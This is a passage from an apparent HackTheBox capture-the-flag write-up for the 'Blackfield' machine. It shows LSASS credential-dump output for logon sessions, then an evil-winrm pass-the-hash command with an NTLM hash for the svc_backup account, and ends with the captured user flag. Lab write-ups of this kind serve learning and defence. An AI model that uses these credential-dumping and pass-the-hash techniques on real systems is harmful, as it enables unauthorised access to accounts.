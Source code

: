 ```bash
                username                   
                domainname
                password None
        == Kerberos ==
                Username: svc_backup                      
                Domain: BLACKFIELD.LOCAL   
                Password: None                            
        == WDIGEST [633ba]==                              
                username svc_backup
                domainname BLACKFIELD
                password None
                                                          
== LogonSession ==                                  
authentication_id 365835 (5950b)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server                                        
logon_time 2020-02-23T17:59:38.218491+00:00                                                                                                                                                                                                
sid S-1-5-96-0-2
.......
```

What we see in the output above, is logon sessions, and there is a plaintext hash there for guess who, user `SVC_BACKUP` ! (if you remember from the bloodhound inspection, our goal was to reach this user)

## Logging in as `SVC_BACKUP` via pass the hash

```bash
evil-winrm -i blackfield.htb -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
logged in, and grabbed user flag! `3920bb317a0bef51027e2852be64b543`

proof